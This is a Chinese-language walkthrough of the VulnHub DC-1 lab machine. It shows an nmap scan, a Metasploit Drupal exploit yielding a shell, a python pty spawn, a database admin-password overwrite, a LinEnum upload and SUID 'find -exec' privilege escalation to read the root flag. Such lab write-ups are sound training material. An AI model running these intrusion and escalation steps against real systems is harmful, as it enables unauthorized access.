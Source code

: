 
## DC-1
**Author:xingg051**

靶机下载: [vulnhub-DC1](https://www.vulnhub.com/entry/dc-1,292/)

```bash
nmap -sT -sV -p- -T5 x.x.x.x
```

发现22和80端口  
浏览器访问80端口，发现Drupal框架   
搜索漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101204156582.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)
尝试利用

```bash
use 4
set rhost x.x.x.x
run 
```

然后就进入了meterpreter
再输入`python -c "import pty;pty.spawn('/bin/bash');"`

就能拿到一个www的shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020010120470786.png)

进去之后查看文件发现数据库密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101204754970.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NjEyODYxNA==,size_16,color_FFFFFF,t_70)

进入数据库发现了users表的admin字段 密码是加密的!
![](https://img-blog.csdnimg.cn/20200101204840438.png)

drupal有自己的密码生成方式
直接利用网上现成的123456的hash值
在数据库里更新密码字段

```bash
update 表名 set 字段名 = 新内容 where 限定内容
```

再到web页面就能admin登录了
在后台看到了作者给出的提示：-exec
我们继续提权，先上传LinEnum

```bash
upload  LinEnum.sh  ./
chmod +x //增加执行权限
```

运行发现

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101205332585.png)

ind命令是root权限的
那就直接查看root家目录吧

```bash
find /root
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020010120540935.png)

```bash
find /root/thefinalflag.txt -exec cat {} \;    
```

查找文件 -exec 执行后面的命令 {}\;

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200101205531711.png)

提权成功
	
DC1是我做的第一台靶机，还是在看着师傅们的wp下做的，到现在做到了第十台，也算是摸了个入门，回头看当时的记录，明显感觉是在瞎头乱撞，稍微重新整理了一下，截图没法补了，就补了一点过程，师傅们海涵。
欢迎师傅们指点

邮箱:xingg051@163.com
